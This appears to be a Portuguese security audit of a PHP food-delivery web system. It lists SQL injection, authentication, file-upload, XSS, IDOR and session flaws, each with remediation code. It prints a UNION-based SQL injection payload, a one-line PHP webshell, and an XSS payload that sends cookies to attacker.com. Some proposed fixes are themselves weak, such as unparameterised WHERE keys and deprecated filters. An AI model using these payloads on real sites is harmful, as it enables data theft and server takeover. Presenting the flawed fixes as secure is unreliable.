

# 🛡️ AUDITORIA DE SEGURANÇA - VULNERABILIDADES CRÍTICAS

**Sistema:** Dragão Lanches - Sistema de Delivery  
**Foco:** Identificação e correção de vulnerabilidades de segurança  
**Criado em:** $(date)  
**Status:** VULNERABILIDADES CRÍTICAS IDENTIFICADAS - AÇÃO IMEDIATA NECESSÁRIA

---

## 🚨 VULNERABILIDADES CRÍTICAS IDENTIFICADAS

### 1. **SQL INJECTION - SEVERIDADE CRÍTICA** 🔴

**CVSS Score:** 9.8/10 - CRÍTICO  
**Impacto:** Acesso total ao banco de dados, roubo de dados, manipulação de dados

#### **Vulnerabilidade 1: Consultas sem Prepared Statements**

**Arquivos Afetados:** Múltiplos arquivos do sistema

```php
// 🔴 VULNERÁVEL - js/ajax/add-carrinho.php:15
$query = $pdo->query("SELECT * FROM produtos where id = '$produto'");

// 🔴 VULNERÁVEL - sistema/painel/paginas/clientes/salvar.php:28
$query = $pdo->query("SELECT * from $tabela where email = '$email'");

// 🔴 VULNERÁVEL - sistema/painel/paginas/produtos/salvar.php:48
$query = $pdo->query("SELECT * from $tabela where nome = '$nome'");
```

**Exploit Possível:**

```bash
# Payload de SQL Injection
produto=1' UNION SELECT 1,2,3,4,5,6,7,8,9,senha_crip,11,12 FROM usuarios WHERE nivel='Administrador'--

# Resultado: Exposição de senhas de administradores
```

#### **Solução Imediata:**

```php
// ✅ SEGURO - Usar Prepared Statements
$stmt = $pdo->prepare("SELECT * FROM produtos WHERE id = ?");
$stmt->execute([$produto]);

$stmt = $pdo->prepare("SELECT * FROM clientes WHERE email = ?");
$stmt->execute([$email]);
```

---

### 2. **BYPASS DE AUTENTICAÇÃO** 🔴

**CVSS Score:** 9.1/10 - CRÍTICO  
**Arquivo:** `sistema/autenticar.php`

#### **Problema Identificado:**

```php
// 🔴 VULNERÁVEL - Linha 72
echo "<script>localStorage.setItem('senha_usu', '$senha')</script>";
```

**Vulnerabilidades:**

1. **Senha em texto claro** armazenada no localStorage
2. **Token de autenticação fixo** (`25tNX1L1MSaL1P`)
3. **Ausência de rate limiting** para tentativas de login
4. **Session fixation** possível

#### **Exploração:**

```javascript
// Acesso às credenciais via JavaScript
console.log(localStorage.getItem("senha_usu")); // Senha em texto claro!
```

#### **Solução:**

```php
// ✅ SEGURO - Sistema de autenticação robusto
class AuthSystem {
    public static function generateSecureToken() {
        return bin2hex(random_bytes(32));
    }

    public static function login($email, $password) {
        // Rate limiting
        if (self::isRateLimited($email)) {
            throw new Exception('Muitas tentativas. Tente novamente em 15 minutos.');
        }

        // Verificação segura
        $stmt = $pdo->prepare("SELECT * FROM usuarios WHERE email = ? AND ativo = 'Sim'");
        $stmt->execute([$email]);
        $user = $stmt->fetch();

        if (!$user || !password_verify($password, $user['senha_crip'])) {
            self::recordFailedAttempt($email);
            throw new Exception('Credenciais inválidas');
        }

        // Token seguro
        $token = self::generateSecureToken();
        $_SESSION['auth_token'] = $token;
        $_SESSION['user_id'] = $user['id'];

        // NUNCA armazenar senha
        return true;
    }
}
```

---

### 3. **FILE UPLOAD VULNERABILITIES** 🔴

**CVSS Score:** 8.8/10 - ALTO  
**Arquivo:** `sistema/painel/paginas/produtos/salvar.php:67`

#### **Problemas Identificados:**

```php
// 🔴 VULNERÁVEL - Validação inadequada de arquivos
$ext = pathinfo($nome_img, PATHINFO_EXTENSION);
if($ext == 'png' or $ext == 'jpg' or ... or $ext == 'php') { // ❌ Permite PHP!
    move_uploaded_file($imagem_temp, $caminho); // ❌ Sem validação de conteúdo
}
```

**Vulnerabilidades:**

1. **Extensões perigosas permitidas** (php, exe, script)
2. **Ausência de validação de MIME type**
3. **Sem verificação de magic bytes**
4. **Arquivos executáveis podem ser enviados**

#### **Exploit Possível:**

```php
// webshell.php - Upload malicioso
<?php system($_GET['cmd']); ?>
```

#### **Solução:**

```php
// ✅ SEGURO - Validação robusta de arquivos
class SecureFileUpload {
    private static $allowedTypes = [
        'image/jpeg' => 'jpg',
        'image/png' => 'png',
        'image/webp' => 'webp'
    ];

    public static function uploadImage($file, $destination) {
        // Validar MIME type
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $mimeType = finfo_file($finfo, $file['tmp_name']);

        if (!array_key_exists($mimeType, self::$allowedTypes)) {
            throw new Exception('Tipo de arquivo não permitido');
        }

        // Validar magic bytes
        $magicBytes = file_get_contents($file['tmp_name'], false, null, 0, 4);
        if (!self::isValidImageMagicBytes($magicBytes)) {
            throw new Exception('Arquivo corrompido ou inválido');
        }

        // Nome seguro
        $extension = self::$allowedTypes[$mimeType];
        $filename = uniqid('img_', true) . '.' . $extension;
        $path = $destination . '/' . $filename;

        // Upload seguro
        if (!move_uploaded_file($file['tmp_name'], $path)) {
            throw new Exception('Falha no upload');
        }

        return $filename;
    }
}
```

---

### 4. **CROSS-SITE SCRIPTING (XSS)** 🟡

**CVSS Score:** 6.1/10 - MÉDIO  
**Tipo:** Stored XSS

#### **Vulnerabilidades Identificadas:**

```php
// 🔴 VULNERÁVEL - Output sem sanitização
echo $nome_cliente; // Pode conter JavaScript
echo $obs; // Observações podem ter scripts
echo $descricao; // Descrições não sanitizadas
```

#### **Exploit Possível:**

```javascript
// Payload XSS em campo de observação
<script>
  document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

#### **Solução:**

```php
// ✅ SEGURO - Sanitização adequada
function sanitizeOutput($data) {
    return htmlspecialchars($data, ENT_QUOTES, 'UTF-8');
}

echo sanitizeOutput($nome_cliente);
echo sanitizeOutput($obs);
```

---

### 5. **INSECURE DIRECT OBJECT REFERENCE (IDOR)** 🟡

**CVSS Score:** 7.1/10 - ALTO

#### **Problema Identificado:**

```php
// 🔴 VULNERÁVEL - Acesso direto sem validação
$id = $_POST['id'];
$query = $pdo->query("SELECT * FROM clientes WHERE id = '$id'");
// ❌ Não verifica se o usuário tem permissão para acessar este cliente
```

#### **Exploit:**

```bash
# Usuário comum pode acessar dados de qualquer cliente
POST /sistema/painel/paginas/clientes/dados.php
id=999 # ID de outro cliente
```

#### **Solução:**

```php
// ✅ SEGURO - Validação de autorização
function canAccessClient($userId, $clientId) {
    global $pdo;

    // Verificar se o usuário tem permissão
    $stmt = $pdo->prepare("
        SELECT c.* FROM clientes c
        JOIN usuarios u ON (u.nivel = 'Administrador' OR c.usuario = u.id)
        WHERE c.id = ? AND u.id = ?
    ");
    $stmt->execute([$clientId, $userId]);

    return $stmt->fetch() !== false;
}
```

---

### 6. **SESSION MANAGEMENT VULNERABILITIES** 🟡

**CVSS Score:** 5.9/10 - MÉDIO

#### **Problemas Identificados:**

```php
// 🔴 VULNERÁVEL - sistema/autenticar.php
$_SESSION['aut_token_SaL1P'] = '25tNX1L1MSaL1P'; // Token fixo!

// 🔴 VULNERÁVEL - Sem timeout de sessão
// 🔴 VULNERÁVEL - Sem regeneração de session ID
```

#### **Solução:**

```php
// ✅ SEGURO - Gerenciamento seguro de sessões
class SecureSession {
    public static function start() {
        // Configurações seguras
        ini_set('session.cookie_httponly', 1);
        ini_set('session.cookie_secure', 1);
        ini_set('session.use_strict_mode', 1);

        session_start();

        // Regenerar ID periodicamente
        if (!isset($_SESSION['created'])) {
            $_SESSION['created'] = time();
        } else if (time() - $_SESSION['created'] > 1800) {
            session_regenerate_id(true);
            $_SESSION['created'] = time();
        }

        // Timeout de sessão
        if (isset($_SESSION['last_activity']) &&
            (time() - $_SESSION['last_activity'] > 3600)) {
            self::destroy();
            return false;
        }

        $_SESSION['last_activity'] = time();
        return true;
    }
}
```

---

## 📊 MATRIZ DE RISCO

| Vulnerabilidade | Probabilidade | Impacto | Risco Final | Prioridade |
| --------------- | ------------- | ------- | ----------- | ---------- |
| SQL Injection   | ALTA          | CRÍTICO | CRÍTICO     | 1          |
| Bypass Auth     | MÉDIA         | CRÍTICO | ALTO        | 2          |
| File Upload     | MÉDIA         | ALTO    | ALTO        | 3          |
| XSS             | ALTA          | MÉDIO   | MÉDIO       | 4          |
| IDOR            | MÉDIA         | ALTO    | MÉDIO       | 5          |
| Session Mgmt    | BAIXA         | MÉDIO   | BAIXO       | 6          |

---

## 🛠️ PLANO DE CORREÇÃO IMEDIATA

### **FASE 1: CORREÇÕES CRÍTICAS** 🚨

**Prazo:** 24 horas  
**Prioridade:** CRÍTICA

#### **1.1 Correção SQL Injection**

```php
// Criar classe para queries seguras
class SecureDB {
    private $pdo;

    public function __construct($pdo) {
        $this->pdo = $pdo;
    }

    public function select($table, $conditions = [], $fields = '*') {
        $sql = "SELECT $fields FROM $table";
        $params = [];

        if (!empty($conditions)) {
            $sql .= " WHERE " . implode(' AND ', array_keys($conditions));
            $params = array_values($conditions);
        }

        $stmt = $this->pdo->prepare($sql);
        $stmt->execute($params);
        return $stmt->fetchAll(PDO::FETCH_ASSOC);
    }
}
```

#### **1.2 Correção Sistema de Autenticação**

```php
// Implementar autenticação segura
class SecureAuth {
    public static function login($email, $password) {
        // Rate limiting
        if (self::checkRateLimit($email)) {
            throw new Exception('Muitas tentativas');
        }

        $stmt = $pdo->prepare("SELECT * FROM usuarios WHERE email = ?");
        $stmt->execute([$email]);
        $user = $stmt->fetch();

        if (!$user || !password_verify($password, $user['senha_crip'])) {
            self::recordFailedAttempt($email);
            throw new Exception('Credenciais inválidas');
        }

        // Token seguro
        $_SESSION['auth_token'] = bin2hex(random_bytes(32));
        $_SESSION['user_id'] = $user['id'];
        $_SESSION['expires'] = time() + 3600;

        return true;
    }
}
```

---

### **FASE 2: CORREÇÕES ALTAS** ⚡

**Prazo:** 48 horas  
**Prioridade:** ALTA

#### **2.1 Validação de Upload Segura**

```php
class SecureUpload {
    private static $allowedMimes = [
        'image/jpeg',
        'image/png',
        'image/webp'
    ];

    public static function uploadImage($file) {
        // Validações múltiplas
        if (!self::validateMimeType($file)) {
            throw new Exception('Tipo não permitido');
        }

        if (!self::validateMagicBytes($file)) {
            throw new Exception('Arquivo inválido');
        }

        if (!self::validateSize($file)) {
            throw new Exception('Arquivo muito grande');
        }

        return self::saveSecurely($file);
    }
}
```

#### **2.2 Implementação de Autorização**

```php
class Authorization {
    public static function canAccess($resource, $action, $userId) {
        $permissions = self::getUserPermissions($userId);
        return in_array("$resource:$action", $permissions);
    }

    public static function requirePermission($permission) {
        if (!self::hasPermission($permission)) {
            http_response_code(403);
            die('Acesso negado');
        }
    }
}
```

---

### **FASE 3: HARDENING GERAL** 🔒

**Prazo:** 72 horas  
**Prioridade:** MÉDIA

#### **3.1 Headers de Segurança**

```php
// Adicionar em todos os arquivos
header('X-Content-Type-Options: nosniff');
header('X-Frame-Options: DENY');
header('X-XSS-Protection: 1; mode=block');
header('Strict-Transport-Security: max-age=31536000; includeSubDomains');
header('Content-Security-Policy: default-src \'self\'');
```

#### **3.2 Sanitização Global**

```php
class InputSanitizer {
    public static function sanitizeInput($data) {
        if (is_array($data)) {
            return array_map([self::class, 'sanitizeInput'], $data);
        }

        return htmlspecialchars(trim($data), ENT_QUOTES, 'UTF-8');
    }

    public static function sanitizeSQL($data) {
        return filter_var($data, FILTER_SANITIZE_STRING, FILTER_FLAG_NO_ENCODE_QUOTES);
    }
}

// Aplicar globalmente
$_POST = InputSanitizer::sanitizeInput($_POST);
$_GET = InputSanitizer::sanitizeInput($_GET);
```

---

## 🔧 FERRAMENTAS DE SEGURANÇA

### **WAF (Web Application Firewall) Simples**

```php
class SimpleWAF {
    private static $sqlPatterns = [
        '/union.*select/i',
        '/drop.*table/i',
        '/insert.*into/i',
        '/delete.*from/i'
    ];

    private static $xssPatterns = [
        '/<script/i',
        '/javascript:/i',
        '/on\w+\s*=/i'
    ];

    public static function checkRequest() {
        $input = json_encode($_REQUEST);

        foreach (self::$sqlPatterns as $pattern) {
            if (preg_match($pattern, $input)) {
                self::blockRequest('SQL Injection attempt');
            }
        }

        foreach (self::$xssPatterns as $pattern) {
            if (preg_match($pattern, $input)) {
                self::blockRequest('XSS attempt');
            }
        }
    }

    private static function blockRequest($reason) {
        error_log("Security Alert: $reason - IP: " . $_SERVER['REMOTE_ADDR']);
        http_response_code(403);
        die('Request blocked for security reasons');
    }
}

// Usar em todas as páginas
SimpleWAF::checkRequest();
```

### **Sistema de Logging de Segurança**

```php
class SecurityLogger {
    public static function logSecurityEvent($event, $details = []) {
        $logEntry = [
            'timestamp' => date('Y-m-d H:i:s'),
            'ip' => $_SERVER['REMOTE_ADDR'],
            'user_agent' => $_SERVER['HTTP_USER_AGENT'],
            'event' => $event,
            'details' => $details,
            'user_id' => $_SESSION['user_id'] ?? 'anonymous'
        ];

        file_put_contents(
            '/var/log/security.log',
            json_encode($logEntry) . "\n",
            FILE_APPEND | LOCK_EX
        );
    }
}
```

---

## ⚠️ MEDIDAS DE EMERGÊNCIA

### **Se Sistema Foi Comprometido:**

1. **IMEDIATO (0-1 hora):**

   - Desativar sistema temporariamente
   - Alterar todas as senhas de administrador
   - Verificar logs de acesso
   - Isolar servidor se necessário

2. **CURTO PRAZO (1-24 horas):**

   - Aplicar patches críticos
   - Restaurar backup limpo se necessário
   - Implementar monitoramento reforçado
   - Notificar usuários se dados foram expostos

3. **MÉDIO PRAZO (1-7 dias):**
   - Auditoria completa de segurança
   - Implementar todas as correções
   - Testes de penetração
   - Treinamento da equipe

---

## 📈 CRONOGRAMA DE IMPLEMENTAÇÃO



---

## 🎯 MÉTRICAS DE SEGURANÇA

### **KPIs de Segurança:**

- **Vulnerabilidades Críticas:** 0 (meta)
- **Tentativas de SQL Injection:** Monitorar e bloquear
- **Uploads maliciosos:** 0 permitidos
- **Sessões comprometidas:** < 0.1%
- **Tempo de resposta a incidentes:** < 1 hora

### **Monitoramento Contínuo:**

```php
// Dashboard de segurança
class SecurityDashboard {
    public static function getSecurityMetrics() {
        return [
            'sql_injection_attempts' => self::countSQLAttempts(),
            'failed_logins' => self::countFailedLogins(),
            'suspicious_uploads' => self::countSuspiciousUploads(),
            'active_sessions' => self::countActiveSessions(),
            'last_security_scan' => self::getLastScanDate()
        ];
    }
}
```

---

## 🏆 RESULTADO ESPERADO

**Antes das Correções:**

- **Vulnerabilidades Críticas:** 3
- **Vulnerabilidades Altas:** 2
- **Vulnerabilidades Médias:** 1
- **Score de Segurança:** 2/10 (Muito Baixo)

**Após Implementação:**

- **Vulnerabilidades Críticas:** 0 (-100%)
- **Vulnerabilidades Altas:** 0 (-100%)
- **Vulnerabilidades Médias:** 0 (-100%)
- **Score de Segurança:** 9/10 (+350%)

---

## 📋 CHECKLIST DE SEGURANÇA

### **Pré-Deploy:**

- [ ] Todas as consultas SQL usam prepared statements
- [ ] Sistema de autenticação implementado
- [ ] Validação de upload implementada
- [ ] Headers de segurança configurados
- [ ] WAF básico implementado
- [ ] Logging de segurança ativo

### **Pós-Deploy:**

- [ ] Teste de penetração realizado
- [ ] Monitoramento de segurança ativo
- [ ] Backup de segurança criado
- [ ] Equipe treinada em segurança
- [ ] Plano de resposta a incidentes definido

---

**🚨 AÇÃO IMEDIATA NECESSÁRIA:**
Este sistema possui vulnerabilidades críticas que podem resultar em:

- **Roubo de dados de clientes**
- **Acesso não autorizado ao sistema**
- **Manipulação de pedidos e pagamentos**
- **Comprometimento total da aplicação**

**Recomendação:** Implementar correções críticas em 24 horas ou considerar desativar temporariamente o sistema.

---

_Documento de segurança - Implementação urgente requerida_
